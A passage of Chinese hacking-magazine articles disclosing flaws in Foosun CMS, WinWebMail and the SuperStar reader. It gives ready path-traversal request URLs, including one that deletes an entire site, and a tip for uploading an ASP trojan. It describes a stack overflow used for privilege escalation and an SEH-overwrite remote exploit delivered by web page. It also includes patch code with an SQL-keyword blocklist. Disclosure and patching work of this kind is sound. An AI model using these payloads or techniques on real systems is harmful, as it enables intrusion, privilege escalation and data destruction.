                Response.Write("<script>alert('目录已经存在');</script>")
            else
                FsoObj.CreateFolder Path
            end if
        end if
```

```asp
' 文件夹存在，给出提示；目录已存在
Response.Write("<script>alert('目录已经存在');</script>")
...
elseif OType = "FileReName" then
    Dim NewFileName,OldFileName
    Path = Request("Path")
    if Path <> "" then
        NewFileName = Request("NewFileName")
        OldFileName = Request("OldFileName")
        if (NewFileName <> "") And (OldFileName <> "") then
            PhysicalPath = Server.MapPath(Path) & "\" & OldFileName
            if FsoObj.FileExists(PhysicalPath) = True then
                PhysicalPath = Server.MapPath(Path) & "\" & NewFileName
                if FsoObj.FileExists(PhysicalPath) = False then
                    Set FileObj = FsoObj.GetFile(Server.MapPath(Path) & "\" & OldFileName)
                    FileObj.Name = NewFileName
                    Set FileObj = Nothing
                end if
            end if
        end if
    end if
elseif OType = "FolderReName" then
    Dim NewPathName,OldPathName
    Path = Request("Path")
    if Path <> "" then
        NewPathName = Request("NewPathName")
        OldPathName = Request("OldPathName")
        if (NewPathName <> "") And (OldPathName <> "") then
            PhysicalPath = Server.MapPath(Path) & "\" & OldPathName
            if FsoObj.FolderExists(PhysicalPath) = True then
                PhysicalPath = Server.MapPath(Path) & "\" & NewPathName
                if FsoObj.FolderExists(PhysicalPath) = False then
                    Set FileObj = FsoObj.GetFolder(Server.MapPath(Path) & "\" & OldPathName)
                    FileObj.Name = NewPathName
                    Set FileObj = Nothing
                end if
            end if
        end if
    end if
end if
ShowVirtualPath = Request("ShowVirtualPath")
AllowShowExtNameStr = "jpg,txt,gif,bmp,png"
CurrPath = Replace(Request("CurrPath"),"//","/")
if CurrPath = "" then
    CurrPath = Replace("/"&G_VIRTUAL_ROOT_DIR&"/"&G_USERFILES_DIR&"/"&Session("FS_UserNumber"),"//","/")
end if
```

```vb
else
    ParentPath = Mid(CurrPath,1,InStrRev(CurrPath,"/")-1)
    if ParentPath = "" then
        CurrPath = Replace("/"&G_VIRTUAL_ROOT_DIR&"/"&G_USERFILES_DIR&"/"&Session("PS_UserNumber"),"//","/")
    end if
end if
```

此漏洞的利用如下。登录后台，然后进入“我的资料->用户头像”，里面有个上传的地方，在“新建目录”内加上“..\..\ttfct”，ttfct 文件夹建于根目录下，如图8所示（也可以提交如下语句 `/User/CommPages/FolderImageList.asp?f_UserNumber=05163245329&Type=AddFolder&Path=/UserFiles/05163245329/..\..\ttfct&CurrPath=/UserFiles/05163245329`，注意 05163245329 是变化的，根据用户的 USERID 不同而不同）。

提交 `asp?f_UserNumber=091832D9FJG&Type=DelFolder&Path=/UserFiles/091832D9FJG/..\..\ttfct&CurrPath=/UserFiles/091832D9FJG` 后显示删除了一个文件夹。如果我们提交 `User/CommPages/FolderImageList.asp?f_UserNumber=091832D9FJG&Type=DelFolder&Path=/UserFiles/091832D9FJG/..\..\&CurrPath=/UserFiles/091832D9FJG`，那就是删除全站了，提交后显示如图11所示。

点击确定后，访问 URL，在浏览器中访问，可以得到如图9所示的提示。说明建立于根目录下的文件夹 ttfct 创建成功了。如果是 Windows 2003 的系统，利用此漏洞上传 ASP 木马就简单了。我们只要建立一个 1.asp 文件夹，然后上传一个 gif 小马于 1.asp 文件夹内就可以访问了，如图10所示。

再次提交 `User/CommPages/FolderImageList.asp?f_UserNumber=091832D9FJG&CurrPath=/UserFiles/`，将显示 userfiles 下的所有目录，也就是遍历 userfiles 目录，如图12所示。

如果我们提交 `/User/CommPages/FolderImageList.asp?f_UserNumber=091832D9FJG&Type=DelFile&Path=/UserFiles/091832D9FJG&FileName=..\..\down.asp&CurrPath=/UserFiles/`，就将删除根目录下的 down.asp 文件。

如果要删除根目录下的 ttfct 文件夹，我们可以提交如下语句 `User/CommPages/FolderImageList...`

至此，有关风讯网站管理系统的漏洞就给大家分析到这里了，随文我提供了漏洞利用录像，不明白之处，大家仔细看一下录像就会明白了！其实，风讯还有很多代码存在问题的，大家可以把最新版本下载下来仔细阅读一下，也许你也会发现不少漏洞呢。

#### 修补方案

针对上面存在漏洞的文件，我给大家提供如下的修补方案供参考。这里就直接给出漏洞的修补代码了，不再针对代码进行详细说明。相信大家一看就会明白了。

### 1) SQL注入绕过漏洞修补

```vb
Function NoSqlHack(FS_inputStr)
    Dim f_NoSqlHack_AllStr,f_NoSqlHack_Str,f_NoSqlHack_i
    Str_InputStr = FS_inputStr
    f_NoSqlHack_AllStr="*|and|exec|insert|select|delete|update|count|master|truncate|declare|create|drop|exec|insert|select|)|delete|update||count|master||truncate|..."
    f_NoSqlHack_Str = Split(f_NoSqlHack_AllStr,"|")
    For f_NoSqlHack_i = LBound(f_NoSqlHack_Str) To UBound(f_NoSqlHack_Str)
        If InStr(LCase(Str_InputStr),f_NoSqlHack_Str(f_NoSqlHack_i))<>0 Then
            If f_NoSqlHack_Str(f_NoSqlHack_i)="'" Then
                ...
                Response.Write "<html>...您提交的数据有恶意字符...您的数据已经被记录...IP...操作日期..."
                Response.End
            End if
        End if
    Next
    NoSqlHack = Replace(Str_InputStr,"'","''")
End Function
```

### 2) HTTP_X_FORWARDED_FOR漏洞修补

```vb
VisitIP = Replace(Replace(Request.ServerVariables("HTTP_X_FORWARDED_FOR"),"'","")," ","")
If VisitIP = "" Then
    VisitIP = Request.ServerVariables("REMOTE_ADDR")
End If
Set VS_RS = Conn.Execute("Select top 1 VoteTime from FS_VS_Items_Result where TID='"&TID&"' and VoteIP='"&VisitIP&"' order by RID desc")
```

### 3) 建立/删除任意文件夹、任意文件漏洞修补

```vb
Set FsoObj = Server.CreateObject("Scripting.FileSystemObject")
OType = Request("Type")
if OType <> "" then
    Dim Path,PhysicalPath
    if OType = "DelFolder" then
        Path = Request("Path")
        If InStr(Path,"..")<>0 then
            Response.Write "error"
            Response.End
        End if
        if Path <> "" then
            Path = Server.MapPath(Path)
            if FsoObj.FolderExists(Path)=true then FsoObj.DeleteFolder Path
        end if
    end if
end if
```

```vb
end if
elseif OType = "DelFile" then
    Dim DelFileName
    Path = Request("Path")
    If InStr(Path,"..")<>0 then
        Response.Write "error"
        Response.End
    End if
    DelFileName = Request("FileName")
    If InStr(DelFileName,"..")<>0 then
        Response.Write "error"
        Response.End
    End if
    if (DelFileName <> "") And (Path <> "") then
        Path = Server.MapPath(Path)
        If FsoObj.FileExists(Path & "\" & DelFileName)=true then FsoObj.DeleteFile Path & "\" & DelFileName
    end if
elseif OType = "AddFolder" then
    Path = Request("Path")
    If InStr(Path,"..")<>0 then
        Response.Write "error"
        Response.End
    End if
    if Path <> "" then
        Path = Server.MapPath(Path)
        if FsoObj.FolderExists(Path)=True then
            Response.Write("<script>alert('目录已经存在!');</script>")
        else
            FsoObj.CreateFolder Path
        end if
    end if
end if
ShowVirtualPath = Request("ShowVirtualPath")
AllowShowExtNameStr = "jpg,txt,gif,bmp,png"
CurrPath = Replace(Request("CurrPath"),"//","/")
...
if InStr(CurrPath,Session("FS_UserNumber"))=0 then
    Response.Write "error"
    Response.End
end if
```

作者话：各位编辑好，新的一年开始，想到自己看黑防已久，也得为自己心爱的黑防多做点贡献，所以带来一篇关于 WinWebMail 的 0Day。这个号称最安全的 mail 服务程序自从 2002 年爆盟发现两个漏洞后，一直没有什么大的漏洞出现，现借助国内最好的安全漏洞发布平台——黑客防线杂志发布此 0Day，与广大黑友交流，也算为黑防杂志作了一份贡献。最后，祝愿黑防越办越好，一路发达！

- 适合读者：溢出爱好者，漏洞爱好者
- 前置知识：无

## 0Day 挑战“安全高速”的 **WinWebMail**

文/图 爱无言

WinWebMail 是一款由国人编写的安全高速的全功能邮件服务器，融合了强大的功能与轻松的管理为一体，提供了最佳的企业级邮件服务器解决方案。这款软件在我见过的众多 mail 服务程序中，绝对是一款非常不错的程序，于是打算在自己的单位搭建平台使用。按照以往的要求，必须先检测这些程序的安全性和稳定性，于是漏洞就这样被发现了，危害程度我这里先按下不说，大家先往下看吧！

先说一下我的测试环境，WinWebMail 是最新的 3.7.3.1 正式版，平台为 Windows XP SP2。按照默认安装配置，WinWebMail 是不允许那些基本的手工连接端口登录模式的，如图1所示。

这也就没让我想着去测试端口漏洞，因为 WinWebMail 最大的特点就是利用浏览器来收发邮件，还是先从 Web 入手吧。打开 WinWebMail 的安装目录，其 Web 服务文件全在 Web 文件夹下，这里我直接告诉大家一个漏洞，不需要登录就可以下载任何人的附件的漏洞，问题主要出在文件 showatt.asp 中，如图2所示。

```asp
<!--#include file="passinc.asp"-->
...
if trim(request("field")) <> "att" or ... then
    isatt = false
else
    isatt = true
end if
...
```

大家可以看到一般的文件，在头部都引入了 passinc.asp 文件，该文件是用来检测用户登录状态、检测用户合法性的；但是在文件 showatt.asp 上我们却没有看到这个引入文件，只要我们设置 Cookie，在 Cookie 里添加 name 变量，并且设置成我们想下载的某个用户名，然后在提交的 filename 中填入对方的附件名，就可以随意下载任何人的附件信息了。

当然，这样的利用还不是太好，因为 filename 是一个数字组成的值，所以我们可以编写一个程序自动匹配，从而达到快速下载的目的。

还是让我们往下看那个更让人激动的漏洞吧！因为我放弃了端口检测，于是开始反汇编主程序。WinWebMail 是一个利用系统服务来工作的程序，我先反汇编了上层接口程序，也就是 easymail.exe，它使用 UPX 加壳，很简单地脱了壳后，开始辛苦的反汇编分析，这里就一笔带过这个痛苦过程，直接给大家看分析结果。

easymail.exe 的初始化没有太多问题，当选择管理的选项时，程序的所有信息都来自文件 popusers.ini、SysInfo.ini 和 domain.ini，以及 adminmsg 文件夹下的一些文件，获取信息后，程序调用 createdialog 函数，开始创建设置对话框，之后再根据用户的改变，在程序退出后写入这些文件。

乍看起来这一切都很正常，可还是被我发现了问题。因为在程序创建对话框的时候，字符串的长度做了一定限制，都是 256 字节，这样一旦我们传递大于 256 字节的信息时，程序不就要发生溢出错误了吗？而且程序在刚开始初始化读取 ini 文件时，并没有对读取的信息进行长度限制，这样漏洞就被我们发现了。那么我们该如何传递这些超长的信息呢？利用设置对话框来直接传递显然不太可能！还记得上面的分析吗？我们可以利用那些 ini 文件来传递。经过进一步地分析，程序最需要的信息分别是用户名、加密密码、注释、所在域名和注册时间，这些信息中我们能改变的是用户名、密码，还有注释和所在域名，其中密码是一个按照算法加密的 8 位信息，这里就忽略了。测试后发现注释不能利用，现在只剩用户名和域名了，这些信息都保存在 popusers.ini 里面，其格式为：`ADMIN 0cad51f6系统管理员账号，缺省的密码为：admin ystem,mail 0 0 0 0 0 0 0 1`，中间以 TAB 间隔，而在测试用户名时，发现程序会自动将大写字母全部转换为小写字母，这样利用起来十分不方便，对于 ShellCode 要求太高，如今剩下的就只有域名了，我们先测试一下漏洞的存在。将域名值的长度加到 256 字节以后，用 OllyDBG 调试程序，如图3所示。

大家可以看到，这是典型的栈溢出漏洞！我自己写了一个简单的 ShellCode，主要是调用 Command，把它填写到域名字符串偏移 260 以后的地方。为什么要这样呢？因为 256—259 是用来放 jmp esp 指令地址的。注意这里不要紧跟在 260 字节后，因为需要字符对齐，不然你会发现 ShellCode 无法正常执行。这个漏洞成功利用的过程我制作了录像，大家可以下载随本文提供的资料观看。

那么究竟是哪个地方出了问题，导致了这样的漏洞呢？正如我前面说的，程序初始化对话框时，所有的信息都被导入了，但是程序的作者忽略了长度限制，当程序调用到函数 CreateDialogIndirectParam 时，程序就出错了，如图4所示，超长的字符串导致主对话框的 listbox 分列显示出错，从而产生了溢出。

下面我们看看这个漏洞有什么作用。因为程序安装为系统服务，当我们成功修改这个文件后，由于 easymail 程序一般是在 admin 权限下运行的，而服务程序 emsvr.exe 是在 system 权限下运行的，这样，我们就可以通过这个漏洞来提升权限了。假设我们得到一个低权的 WebShell，有修改权限，服务器安装有 WinWebMail，我们只要能够修改其中的 popusers.ini 文件，就可以利用这个漏洞提升权限了。加用户、开端口就随你了。除此之外，在硬盘分区为 NTFS 格式下，WinWebMail 会要求安装目录为 everyone 可写，这是因为它是 Web 服务式的邮件系统，需要通过 ASP 文件读写用户邮箱，也就是对应于某个用户名的文件夹，而普通的 ASP 程序解析权限很低，所以必须得让 WinWebMail 所在的目录拥有 everyone 可写权限，不然程序会无法正常读写这些用户文件夹的。在 FAT32 格式下就更不用说了，我们可以随意修改 popusers.ini 文件，从而溢出获得更高权限了。我这里给大家提供一个测试文档 popusers.ini，它是工作在 Windows XP SP2 下的，可以修改它来溢出 emsvr.exe。

最后再说说远程利用的方法。因为我们可以通过 Web 来注册用户，所以可以利用抓包软件来修改注册信息，从而间接修改 ini 文件，等到服务器重启的时候，就可以利用漏洞了。这个漏洞在去年我就发现了，当时测试的 WinWebMail 版本低于 3.7.3.1，因此，该漏洞影响范围到 3.7.3.1 以前的版本。感谢黑客防线给我这个机会能和大家共同分享，就算是我给大家的新年礼物了，希望大家能喜欢！

- 适合读者：溢出爱好者  
- 前置知识：汇编语言  

## 惊爆超星阅览器
### 远程溢出0Day

文／图 发无言

超星浏览器是一款在国内比较流行的文本浏览器，就像 PDF 的浏览器 Acrobat Reader 一样，它主要是帮助用户针对 PDG 的文件格式进行阅览。而最新推出的超星数字图书馆整合了更多的功能，如在线阅读文章、我的书籍分类等，我个人非常喜欢这款阅览器。这几年里，不知道是我孤陋寡闻，还是超星本身确实很安全，一直没听说什么关于超星浏览器的漏洞，而大名鼎鼎的 Acrobat Reader 却接二连三地出现安全隐患，难道说……于是乎，我决定逆向分析一下超星浏览器，看看它是不是我想象中的那么安全。

刚开始时发现超星是用 Delphi 编写的，以为这样一般不会有什么大的问题，顶多是些小 Bug，可越往深分析，越发现超星浏览器不仅存在多处程序处理的逻辑错误，更有典型的栈溢出漏洞。下面我就挑选其中一个危害较大、可以被远程利用的溢出漏洞与大家一起逆向分析一下。

这个典型的栈溢出漏洞出现在函数 sub_4ABBD8 里（这是 IDA 自定义的函数名，其实叫什么名字并不重要），我们先不急着分析这个函数，先来看一下这个溢出是怎么触发的。当我们利用超星自带的浏览器访问一个网址时，如果其中有一个超链接如图1所示的那样（我这里用一个本地页面代替远程访问的页面，效果是一样的），你也许会马上点击这个链接去查看那本新书，可是你会发现也许是网速的原因或者是这本新书很大，等待了几秒钟一直没有见文件被打开。你这时要么会点击地址栏右边的那个红圈画出的“连接”标志，再次连接一下网站地址；或者会复制这个超链接地址到地址栏里再访问。很奇妙，这个时候你会发现超星自动关闭消失了。如果利用任意的调试器来调试超星的话，你会发现，其实你刚才已经触发了这个很隐蔽的溢出漏洞，超星连自己带的异常处理函数都没能用上就被系统强制关闭了。



图1

现在我们来分析一下这是怎么回事，超星怎么就被强行杀掉了呢？还记得我刚开始说的函数 sub_4ABBD8 吗？在我的逆向分析中，这个函数是一个类似于进行历史记录的函数。我们知道，一般使用 IE 浏览器访问网站时，IE 常会记录我们最近访问过的那些网站地址，这里的函数 sub_4ABBD8 就相当于这个作用。一开始，它先进行了一个内存空间分配，而且只做了一个 300h，也就是 768 个字节的空间分配。这里为什么会只做 768 个字节的分配呢？我估计是因为超星对历史记录的处理最终是要把网站地址写入注册表中，一般注册表键值不会太长，所以 768 个字节一般够用了。回过头来我们看看这个函数开始处的具体代码。

```asm
push    300h        ; n
push    0           ; c
lea     edx, [ebp+S]
push    edx         ; S
call    _memset
```

300h 作为函数 _memset 的一个参数被程序压栈。学过编程的朋友一定知道 _memset 函数就是将指定的内存空间清除成你所指定的值，这里这个值是 0，那么上面的代码的意思就是将大小为 300h 的内存空间清零。然后，程序开始利用 eax 的指针将一部分参数以及函数处理用的地址复制进入这个 768 字节空间中。举例来说，假定程序的栈现在指在 0x0012de30 的地方，函数先将一部分参数填充到 0x0012de30 到 0x0012df30 之间的位置，然后函数开始将我们访问的 URL（网址）字符串写入从 0x0012df30 开始的地方，具体代码如下。

```asm
loc_4ABD6E:
mov     edi, eax
xor     eax, eax
push    esi
or      ecx, 0FFFFFFFFh
repne scasb
not     ecx
sub     edi, ecx
; ...
lea     esi, [ebp+var_248]
xchg    esi, edi
mov     edx, ecx
mov     eax, edi
shr     ecx, 2
lea     eax, [ebp+var_C]
rep movsd
mov     ecx, edx
mov     edx, 2
and     ecx, 3
rep movsb
pop     esi
dec     [ebp+var_14]
; ...
call    sub_79C608
mov     ecx, [ebp+var_40]
push    ecx
mov     eax, [ecx]
call    dword ptr [eax+8]
```

我们注意一下，开始函数为了写入第一部分的参数，用去了 0x0012de30 到 0x0012df30 的位置，也就是 100h 的长度，就是 256 个字节。按照前面函数开始分配的空间长度为 768 个字节，减去程序一开始用的，我们就剩下 512 个字节可以用了。可惜的是，函数在这里竟然没有对传入的 URL 字符串长度进行检查，把我们填写的 URL 地址全部写入剩下的空间里面，那些本来正常的地址被我们覆盖了，而紧接着程序调用 sub_79C608，这个函数又调用一个 Delphi 函数时，前面那些本来正常的地址里的内容会作为参数被这个函数使用，可是现在已经被我们的超长字符串覆盖了，自然就出错了。

字符串覆盖了函数的返回地址导致程序出错的时候，我们的 esp 寄存器一般都指向我们的字符串，只要利用 jmp esp 就能让程序跳转到我们的 ShellCode 里面。而这里是一个调用的参数被覆盖导致的程序异常出错，并且这个时候，程序因为出错会调用程序自带的异常处理函数。这个异常处理函数其实就是 SEH 链上的一个内存地址，这个链也是在内存中的。



看到那些处理函数地址了吗？程序处理异常时就是调用这些函数地址进行异常处理的。如果栈溢出时我们能覆盖这些函数地址，那么程序只要一旦出现异常错误，就会跳入到我们的地址里，从而成功利用这个溢出漏洞。很幸运，在这个函数刚开始处理的时候，它的 SEH 链也在那个 300h 的栈空间里面，我们覆盖的那些正常地址包括了这个 SEH 链。如图3所示，地址 0x0012e048 处就是存放异常处理的函数地址，现在被我们覆盖成了 65762652，将其用十六进制编辑器转换过来就是字符串“ev&R”。当程序发现异常时，就会自动跳到被我们覆盖成的地址 65762652 这个地方进行处理，这样我们就可以随意控制程序执行代码了。



因为不能使用 jmp esp，我们的覆盖地址比较难确定。我先采用一种直接覆盖异常处理函数地址为系统中一个调用 MessageBox 的地址，来给大家展现一下是不是可以随意控制程序执行顺序。这个地址在库文件 historyrecord 里面，是一个会弹出错误消息框的地址，我们用这个地址替换上面的“ev&R”这个字符串的位置，再使用超星访问这个网页，点击“超链接”，如图4所示。



图4

成功地看到了一个错误消息框的产生，说明我们确实已经可以随意控制程序的流程了，可是怎么执行 ShellCode 呢？我们总不能先在内存中找到 ShellCode 地址再替换“ev&R”来执行 ShellCode 吧？这样不但麻烦，而且每次 ShellCode 在内存中的地址又不确定，不能使得漏洞利用变得很通用，尤其是远程利用时，我们总不能跑到对方电脑上调试一番再利用吧？

下面就给大家介绍在利用 SEH 覆盖法时如何执行我们的 ShellCode。因为在 Windows XP 以及高版本的 Windows 系统里，系统会利用异常处理函数来捕捉程序出现的异常，包括溢出等。当进入异常处理时，系统会将 ebx 寄存器清零，用来防止被非法利用，可是此时在 esp+8 的地方却保存了异常出现时的一个寄存器记录，这个记录放在一个结构里，这样就等于我们想要利用的那些寄存器值被移了一个位置。如果我们能找到例如“call dword ptr [esp+8]”这样的指令，就相当于传统的 jmp esp 指令一样，能使我们的 ShellCode 顺利执行了。

好了，现在结合我们发现的这个漏洞，异常出现时我们需要寻找一个地址包含指令“call dword ptr [esp+8]”来代替上面的 65762652，使得我们的 ShellCode 能执行。经过一番寻找，我找到一个地址等效于“call dword ptr [esp+8]”指令，把它放入我们修改后的超长网址里，然后再在其中加入我们的 ShellCode。注意这里的 ShellCode 不要出现大写字母以及双引号，因为程序会将大写字母全部转换成小写，并且在 HTML 语法里双引号会成为字符串的结尾，这会导致我们的 ShellCode 被截断，无法正常利用，这是一个限制点哦。我做的 ShellCode 是改变消息框的内容为“hack”，本以为这样就可以轻松地让我们看到一个显示“hack”字符串的消息框了，没想到程序又被自动关闭了，什么都没显示。无奈，只好再调试程序，过程很复杂，我在这里不再叙述，直接给出结果，就是在编写 ShellCode 时，一定切记字节对齐，因为 32 位的 Windows 都是四字节对齐的，并且一定不要出现“0xEB”字节，要出现也一定要使得它后面的字节尽量大于 0x20。调整好我们的 ShellCode，打开我做的测试页面 testmessage.htm 看看成功利用后的效果，如图5所示，程序顺利执行了！



图5

最后，我再说说这个漏洞的危害。正如我一开始分析漏洞的触发一样，要是我们做一个包含了这个漏洞利用的网页，放到网上让人浏览，那么凡是使用超星直接浏览的人或者调用超星解析的，都会被成功的溢出攻击，就像网页木马一样，使用一组下载执行的 ShellCode，我们就能通过超星远程入侵了。对了，忘记告诉大家我的测试环境了，我调试的是最新的超星浏览器，版本号是 3.91，3.91 以前版本的也有这个漏洞。OK，就到这里吧，祝大家玩得愉快。

- 适合读者：入侵爱好者，溢出爱好者  
